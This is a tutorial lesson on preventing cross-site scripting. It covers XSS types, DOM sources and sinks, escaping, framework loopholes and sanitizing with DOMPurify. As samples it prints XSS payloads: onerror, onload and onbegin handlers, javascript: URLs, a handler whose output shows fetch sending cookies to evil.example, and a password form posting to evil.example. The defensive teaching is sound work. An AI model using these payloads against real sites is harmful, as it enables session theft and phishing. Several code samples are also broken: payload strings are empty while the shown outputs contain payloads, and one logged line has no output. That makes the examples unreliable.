

## What this lesson covers

XSS (cross-site scripting), the main frontend threat: its kinds (stored, reflected, DOM-based), sources and dangerous sinks in the DOM, why context-aware escaping protects, what frameworks do on their own and where each has a loophole, and how to clean user HTML (DOMPurify and the built-in `setHTML`). A strict CSP and Trusted Types as the second layer of defense are covered in the `sec-csp` lesson. The examples run in jsdom and Node.js.

## What XSS is

XSS is a foreign script running on your page, that is, **with your origin's privileges**. Such a script sees the DOM and everything the user sees, sends requests with their cookies, reads `localStorage`, replaces the login form, and attaches handlers to input. It cannot send off an `HttpOnly` cookie, but that does not save you: it can act on the user's behalf without it.



| Kind | Where data becomes code | Who must protect |
|---|---|---|
| Stored | When outputting saved data: comments, names, product descriptions | The output code on the server and the client |
| Reflected | The server inserts a request parameter into the response ("Results for: ...") | Server templates, SSR |
| DOM-based | A client script takes data from the URL, `postMessage` or storage and writes it into a dangerous sink | Only the frontend: the server may never see this data |

## Sources and sinks

DOM XSS is found as a path from a **source** controlled by the attacker to a **sink** that turns a string into code or markup.

| Sources | Dangerous sinks |
|---|---|
| `location.hash`, `location.search`, `document.referrer` | `innerHTML`, `outerHTML`, `insertAdjacentHTML`, `document.write` |
| `postMessage`, `window.name` | `eval`, `new Function`, `setTimeout` and `setInterval` with a string |
| `localStorage`, API responses with user data | `href`, `src`, `action`, `formaction` with the `javascript:` scheme |
| | `<script>` with a changeable `src` or text, an iframe's `srcdoc` |

```js dom
// The source: the part of the address after #, controlled by whoever sent the link.
const link = new URL('https://app.example.com/search#')
const query = decodeURIComponent(link.hash.slice(1))

const unsafe = document.createElement('p')
unsafe.innerHTML = 'Results for: ' + query // a sink: the string is parsed as HTML

const safe = document.createElement('p')
safe.textContent = 'Results for: ' + query // text: no parsing

const img = unsafe.querySelector('img')
console.log('innerHTML  : elements', unsafe.children.length, '| handler:', img.getAttribute('onerror').slice(0, 24) + '…')
console.log('textContent: elements', safe.children.length, '| text:', safe.textContent.slice(0, 32) + '…')

// <script> inserted through innerHTML does not run, but that does not help: handlers do.
const s = document.createElement('div')
s.innerHTML = '<script>steal()</script><svg onload="steal()"></svg>'
console.log('inserted:', [...s.children].map((el) => `<${el.localName}>`).join(' '))
```

```output
innerHTML  : elements 1 | handler: fetch(`//evil.example/?c…
textContent: elements 0 | text: Results for:  <svg>
```

- The string from the link, inserted through `innerHTML`, became an `` element with a handler: in a browser `onerror` fires immediately because image `x` does not exist, and the cookies go to someone else's server.
- `textContent` inserts **text**: the same characters are shown as they are, with no markup.
- A `<script>` inserted through `innerHTML` does not run by the standard, but that is no protection: event handlers (`onerror`, `onload`, `onbegin` in SVG) do run.

## Context-aware escaping

The main rule: data is output as **data**, not as markup or code. How exactly depends on where it is output:

| Context | How to output safely |
|---|---|
| Text inside an element | `textContent` or escaping `<`, `>`, `&` |
| An attribute value | `setAttribute` or escaping quotes; the attribute always in quotes |
| A URL in `href`, `src` | Parse with `new URL` and allow only `https:`, `http:`, `mailto:` |
| Inside `<script>` (hydration data) | JSON with `<` escaped (the `render-hydration` lesson), or better a `data-*` attribute or a separate request |
| Inside a handler, `eval`, CSS | Do not insert data at all |

Template engines and frameworks do the first two on their own. That is why almost all XSS in modern apps appears where the developer bypassed the framework.

## Frameworks and their loopholes

```tsx run
import { renderToString } from 'react-dom/server'

const comment = ''
const website = 'javascript:steal()'

function Comment() {
  return (
    <>
      <p>{comment}</p>
      <a href={website}>site</a>
      <div dangerouslySetInnerHTML={{ __html: comment }} />
    </>
  )
}
const html = renderToString(<Comment />)
for (const part of html.split(/(?=<a |<div)/)) console.log(part.length > 90 ? part.slice(0, 90) + '…' : part)
```

```output
<p>&lt;img src=x onerror=&quot;steal()&quot;&gt;</p>
<a href="javascript:throw new Error(&#x27;React has blocked a javascript: URL as a securit…
<div></div>
```

| | Text `{}` and `{{ }}` | A `javascript:` URL | Raw HTML |
|---|---|---|---|
| React 19 | Escapes | Blocks: replaces it with code that throws | `dangerouslySetInnerHTML` inserts as is |
| Vue 3 | Escapes | **Does not check**, the link runs on click | `v-html` inserts as is |
| Angular | Escapes | Adds an `unsafe:` prefix | `[innerHTML]` cleans with a sanitizer; `bypassSecurityTrustHtml` turns protection off |

Loopholes common to all frameworks:

- direct DOM access: `ref.current.innerHTML`, `elementRef.nativeElement.innerHTML`, third-party libraries that write to the DOM themselves (editors, charts, syntax highlighting);
- a template built from a user string: compiling Vue or Angular templates in the browser, server templates with data inside the client template;
- attributes with links: an `href` from a user profile in Vue, an iframe's `src`;
- state data embedded in HTML during SSR without escaping `</script>`.

Vue and Angular examples with output are in the `vue-best-practices` and `ng-architecture` lessons.

## When HTML is needed: sanitizing

Articles from a CMS, formatted comments and user Markdown require outputting HTML. Then it is **cleaned with a sanitizer**: parsed as HTML, keeping only allowed tags and attributes. Regular expressions are not suitable: HTML is parsed differently than it seems, and there are thousands of bypasses for regex filters.

```js dom
import DOMPurify from 'dompurify'

// HTML from users: a comment in a rich-text editor, an article from a CMS.
const inputs = [
  '<b>Great</b> <i>post</i>, see <a href="https://example.org">this</a>',
  '<script>steal()</script>',
  '<a href="javascript:steal()">click me</a>',
  '<svg><animate onbegin="steal()" attributeName="x"/></svg>',
  '<form action="https://evil.example"><input name="password"></form>',
]
for (const html of inputs) console.log(DOMPurify.sanitize(html))

// Stricter: only the tags and attributes a comment really needs.
const strict = { ALLOWED_TAGS: ['b', 'i', 'a', 'p'], ALLOWED_ATTR: ['href'] }
console.log(DOMPurify.sanitize('<h1 style="font-size:90px">BUY NOW</h1><b>ok</b>', strict))
```

```output
<b>Great</b> <i>post</i>, see <a href="https://example.org">this</a>

<a>click me</a>
<svg></svg>
<form action="https://evil.example"><input name="password"></form>
BUY NOW<b>ok</b>
```

- The formatting stayed; the handlers, `<script>` and the `javascript:` link were removed.
- By default DOMPurify kept the `<form>` with a field: that is not code execution, but a ready-made "please log in again" phishing form inside a comment. For user content, set your own short list of allowed tags and attributes.
- Clean **right before inserting**, with the same parser the browser uses: a string cleaned on the server and then changed (concatenated, run through a Markdown parser) is dangerous again.
- The built-in sanitizer: `element.setHTML(html)` (the Sanitizer API) always removes dangerous elements and attributes, even if the configuration allows them. It is in Chrome 146 and Firefox 148, not yet in Safari, so a DOMPurify fallback is needed. `setHTMLUnsafe()` cleans nothing despite the similar name.

## Key points

- XSS is foreign code with your origin's privileges: it acts on the user's behalf without even reading `HttpOnly` cookies.
- Stored, reflected and DOM-based; the last is visible only on the client: a path from a source (`location`, `postMessage`, storage) to a sink (`innerHTML`, `eval`, `javascript:` in a URL).
- Protection: output data as data with its context in mind; `textContent` instead of `innerHTML`, a URL scheme check.
- React and Vue escape text; React 19 blocks `javascript:`, Vue does not; `dangerouslySetInnerHTML`, `v-html`, `bypassSecurityTrust*` and direct DOM turn protection off.
- User HTML is cleaned with a sanitizer (DOMPurify, `setHTML`) with your own tag list, right before inserting; regular expressions do not work.
